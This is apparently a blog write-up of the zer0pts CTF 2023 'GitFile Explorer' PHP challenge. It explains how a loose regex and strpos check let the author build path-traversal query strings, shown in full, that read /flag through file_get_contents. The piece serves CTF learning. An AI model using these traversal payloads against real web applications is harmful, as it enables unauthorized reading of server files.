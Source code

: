 ```yaml
---
title: "zer0pts CTF 2023 - GitFile Explorer"
pubDate: "2024-11-12"
description: "CTF challenge writeup."
tags:
  - writeups
  - ctf
  - php
  - lfi
toc: true
math: true
---
```



This is a single PHP file challenge that contains a "Git File Explorer", it basically fetches a file from github/gitlab/bitbucket that you specify in the form. The challenge here is to read `/flag` at the root.

I went through the code to see how we can possibly read the flag, and the only way it seem to be out of this snippet:

```php
if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```

It uses `file_get_contents` via a provided URL, the URL is constructed by the function `craft_url`.

```php
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}
```

Now lets figure out a way to bypass the first `strpos` matching. So first of all this function does not care where it sees the string it simply return true if it sees it somewhere, so that's good to know lets go the regex that we need to bypass somehow.

So the regex seems a bit off, I spotted two things at first, the `/m` which means multiline (ends up completely random and not related to the challenge) and that it doesn't enforce a column after http, which makes it easy to request a local file. Lets try to do that.

I've put some `echo`s here and there so that I can see if it bypasses it with the following payload:

```ini
/?service=https//github
```

And it does 

```log
[Tue Nov 12 09:43:14 2024] PHP Warning:  file_get_contents(https//github/ptr-yudai/ptrlib/master/README.md): Failed to open stream: No such file or directory in /home/.<>./gitfile-explorer/index.php on line 33
```

I can see that it tries to open the folder https in the current dir and so on, the problem is that it attaches the default settings of the other attributes, so we must use them as well. After a bit trial and error I've come up with this payload:

```ini
/?service=https//github&owner=..&repo=..&branch=..&file=../../../../../flag
```

Which reads the flag:

```
zer0pts{foo/bar/../../../../../directory/traversal}
```